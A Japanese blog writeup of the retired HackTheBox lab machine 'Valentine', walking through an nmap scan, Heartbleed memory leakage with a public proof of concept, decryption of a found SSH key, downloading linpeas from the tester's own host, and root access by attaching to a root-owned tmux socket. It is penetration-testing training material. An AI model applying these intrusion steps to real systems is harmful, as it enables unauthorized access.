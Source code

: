 ```yaml
---
title: 【Easy/Linux】Valentine Writeup(HackTheBox)
date: "2022-07-28"
template: "post"
draft: false
slug: "hackthebox-linux-valentine"
category: "HackTheBox"
tags:
  - "HackTheBox"
  - "Linux"
  - "EasyBox"
description: "HackTheBoxのリタイアマシン「Valentine」のWriteUpです。"
socialImage: "/media/cards/no-image.png"

---
```


「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。

<img src="../../static/media/2022-07-28-hackthebox-linux-valentine/327080.png" alt="Hack The Box">

今回は、HackTheBoxのリタイアマシン「Valentine」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [内部探索](#内部探索)
- [まとめ](#まとめ)


## 探索

いつも通りファストスキャンから始めます。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.79  targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22
|_ssl-date: 2022-07-28T12:23:13+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
Service Info: Host: 10.10.10.136; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

443ポートが開いているのでアクセスしてみると変な画像がでてきました。

![image-20220728212353286](../../static/media/2022-07-28-hackthebox-linux-valentine/image-20220728212353286.png)

Hertbleedの画像っぽいことがわかります。

[GitHub - mpgn/heartbleed-PoC: Hearbleed exploit to retrieve sensitive information CVE-2014-0160](https://github.com/mpgn/heartbleed-PoC)から取得したエクスプロイトコードを実行したところ、「heartbleedbelievethehype」という文字列がメモリ内から取得できましたがようとがわかりませんでした。

もう少し探索を進めるためにgobusterを回したところ、/devというパスが見つかり、中にメモと秘密鍵が埋まっていることがわかりました。

``` bash
$ gobuster dir -u http://targethost.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 | tee gobuster.txt
```

しかし、秘密鍵は`Proc-Type: 4,ENCRYPTED`の形式で、パスフレーズが設定されているようです。

ここで先ほど取得した文字列を使って秘密鍵を復号することができました。

``` bash
openssl rsa -in enc.key -out dec.key
```

ユーザ名がわからなかったので試しにrootを試してみたところ、`sign_and_send_pubkey: no mutual signature supported`のエラーがでました。

``` bash
$ ssh -i dec.ky root@10.10.10.79                                                                   
sign_and_send_pubkey: no mutual signature supported
```

これはどうやら古いバージョンのSSHが新しいSSHでサポートされていないことにより出力されているエラーのようです。

そこで、以降は古いバージョンのSSHを持つDockerコンテナを使用して進めていきます。

残念ながらrootはだめでしたが、鍵のファイル名が`hype_key`だったのでhypeを試したところ、User権限でログインができました。

## 内部探索

とりあえずlinpeasで探索を始めます。

``` bash
$ curl 10.10.14.2:5000/linpeas.sh -o linpeas.sh
$ ./linpeas.sh tee linpeas.txt
```

結果を見ていきます。

カーネルバージョンが古いので、いくつか刺さりそうな脆弱性もあるようです。

``` bash
╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2
  #############################
    Linux Exploit Suggester 2
  #############################
  Local Kernel: 3.2.0
  Searching 72 exploits...
  Possible Exploits
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131
```

sudoのバージョンもかなり古そうです。

``` bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                           
Sudo version 1.8.3p1 
```

とりあえずいくつかサジェストされたエクスプロイトを試してみたものの、rootは取得できませんでした。

続いて、端末内のhistoryを見てみると、何やらルート権限のtmuxで作業をしていたことがわかります。

``` bash
hype@Valentine:~$ history
    5  cd /
    6  ls -la
    7  cd .devs
    8  ls -la
    9  tmux -L dev_sess
   10  tmux a -t dev_sess
   11  tmux --help
   12  tmux -S /.devs/dev_sess
   13  exit
```

tmuxとはターミナルの多重化ソフトウェアで、一つのSSHセッションで複数のターミナルを持つことができます。

そのためシェルが切断された後も別の端末から作業が継続できるようです。

ここで、historyの情報から、端末内の`/.devs/dev_sess`に`-L`オプションでソケットを作成していたことがわかります。

そのため、以下のコマンドでroot権限のシェルに接続することでrootを取得できました。

``` bash
$ tmux -S /.devs/dev_sess 
```

## まとめ

DirtyCowのエクスプロイトがうまく刺さらなかったのでいつかちゃんと読みたい。

